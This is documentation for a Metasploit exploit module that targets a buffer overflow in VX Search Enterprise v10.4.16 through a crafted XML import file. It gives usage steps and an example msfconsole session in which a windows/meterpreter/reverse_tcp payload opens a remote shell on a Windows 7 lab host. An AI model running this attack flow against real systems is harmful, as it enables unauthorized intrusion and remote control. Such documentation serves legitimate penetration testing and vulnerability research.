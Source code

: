 This module exploits a buffer overflow in VX Search Enterprise v10.4.16 by using the import command option to import a specially crafted xml file.

## Vulnerable Application

This module has been tested successfully on Windows 7 SP1. The vulnerable application is available for download at [www.vxsearch.com](http://www.vxsearch.com/setups/vxsearchent_setup_v10.4.16.exe).

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/windows/fileformat/vxsearch_xml`
3. Do: `set PAYLOAD [PAYLOAD]`
4. Do: `run`

## Example
```
msf > use exploit/windows/fileformat/vxsearch_xml 
msf exploit(windows/fileformat/vxsearch_xml) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(windows/fileformat/vxsearch_xml) > set LHOST 172.16.40.146 
LHOST => 172.16.40.146
msf exploit(windows/fileformat/vxsearch_xml) > run

[*] Creating 'msf.xml' file ...
[+] msf.xml stored at /root/.msf4/local/msf.xml
msf exploit(windows/fileformat/vxsearch_xml) > use exploit/multi/handler 
msf exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 172.16.40.146 
LHOST => 172.16.40.146
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.16.40.146:4444 
[*] Sending stage (179779 bytes) to 172.16.40.144
[*] Meterpreter session 1 opened (172.16.40.146:4444 -> 172.16.40.144:49790) at 2018-01-25 20:56:56 +0000

meterpreter > sysinfo 
Computer        : PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : pt_PT
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > 
```
